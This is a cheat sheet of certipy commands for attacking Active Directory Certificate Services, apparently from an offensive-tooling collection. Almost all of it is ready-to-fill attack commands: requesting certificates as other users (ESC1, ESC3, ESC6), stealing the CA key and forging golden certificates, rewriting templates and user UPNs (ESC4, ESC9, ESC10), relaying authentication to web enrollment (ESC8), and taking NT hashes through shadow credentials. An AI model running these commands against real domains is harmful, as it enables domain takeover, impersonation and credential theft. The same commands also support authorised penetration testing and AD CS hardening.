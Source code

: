 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - list certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> [-stdout]
```

## certipy - request certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## certipy - extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -pfx <pfx> -nokey -out <file>.crt
```

## certipy - extract key from pfx
#plateform/linux #target/remote #cat/RECON
```
certipy cert -pfx <pfx> -nocert -out <file>.key
```

## certipy - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file>  -domain <domain> -username <user> -dc-ip <ip>
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc-ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc-ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## certipy - Get NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>
```